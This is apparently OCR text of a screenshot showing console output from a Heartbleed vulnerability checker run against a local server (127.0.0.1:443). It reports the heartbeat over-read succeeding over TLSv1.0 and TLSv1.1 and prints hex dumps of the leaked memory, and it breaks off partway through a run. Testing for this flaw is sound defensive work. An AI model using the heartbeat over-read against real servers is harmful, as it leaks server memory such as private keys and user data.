       0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
      0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
      0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
      0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
      0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
      02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
      02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
      0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
      0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

    [-] Closing connection

    [-] Connecting to 127.0.0.1:443 using TLSv1.0
    [-] Sending ClientHello
    [-] ServerHello received
    [-] Sending Heartbeat
    [Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.0
    [-] Displaying response (lines consisting entirely of null bytes are removed):

      0000: 02 FF FF 08 03 01 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
      0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
      0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
      0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
      0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
      0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
      0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
      00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
      00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
      00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
      00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
      01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
      01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
      01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
      01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
      01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
      01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
      0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
      0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
      0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
      0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
      0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
      0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
      02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
      02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
      0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
      0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

    [-] Closing connection

    [-] Connecting to 127.0.0.1:443 using TLSv1.1
    [-] Sending ClientHello
    [-] ServerHello received
    [-] Sending Heartbeat
    [Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.1
    [-] Displaying response (lines consisting entirely of null bytes are removed):
